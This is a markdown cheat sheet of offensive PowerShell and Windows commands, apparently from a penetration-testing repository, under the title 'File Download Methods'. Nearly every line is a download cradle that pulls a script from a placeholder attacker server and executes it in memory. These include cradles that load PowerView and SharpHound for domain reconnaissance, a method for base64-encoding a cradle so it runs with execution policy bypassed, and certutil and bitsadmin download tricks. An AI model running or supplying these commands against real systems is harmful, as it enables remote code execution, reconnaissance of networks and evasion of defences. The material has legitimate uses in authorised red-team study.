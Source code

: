 # <h1 align="center" id="heading">File Download Methods</h1>

### Normal File/Script Cradles
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/<filename>")
```
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/<filename>") | Invoke-Expression"
```

### PowerView Cradle
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1");<insert powerview commands here>
```

### BloodHound Collection Cradles
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All -Domain <target_comain>
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod GPOLocalGroup
```

### Base64-Encoded Download Cradle
```powershell
pwsh
```
```powershell
$text = "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_server>/<target file>')"
```
```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
```
```powershell
$EncodedText = [Convert]::ToBase64String($bytes)
```
```powershell
$EncodedText
```
```powershell
powershell.exe -exec bypass -enc <b64 string here>
```

### Download to Disk
```powershell
wget http://<attacker server>/<file> -outfile C:\<output location>
```
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://<attacker_server>/<target file>', 'C:\<output location>')
```

### Alternate Download Methods
```console
certutil -urlcache -f http://<attacker server>/<file> C:\\<output location>
```
```console
bitsadmin /transfer myJob http://<attacker server>/<file> C:\<output location>
```
